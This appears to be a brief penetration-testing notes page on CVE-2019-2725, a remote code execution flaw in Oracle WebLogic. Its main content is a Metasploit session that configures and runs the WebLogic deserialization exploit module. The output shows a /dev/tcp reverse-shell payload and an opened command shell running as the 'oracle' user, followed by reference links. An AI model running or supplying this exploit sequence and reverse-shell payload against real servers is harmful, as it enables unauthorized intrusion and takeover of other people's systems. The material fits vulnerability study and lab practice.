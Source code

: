 ```yaml
---
title : "CVE-2019-2725"
# pre : ' '
description : "Oracle WebLogic WLS9-async Remote Code Execution."
date : 2020-05-06T10:53:14+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-2725 - Oracle WebLogic WLS9-async Remote Code Execution

### Exploit

```plain
msf5 use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 10.10.10.13
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rport 7102
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set ssl true
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 10.10.10.1
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[+] 0<&218-;exec 218<>/dev/tcp/10.10.10.13/4444;sh <&218 >&218 2>&218
[*] Started reverse TCP handler on 10.10.10.1:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.10.13:21207) at 2020-05-06 09:46:12 +0200

whoami
oracle
```

### URL list

* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-2725)
* [Oracle.com](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
* [Tenable.com](https://www.tenable.com/cve/CVE-2019-2725)
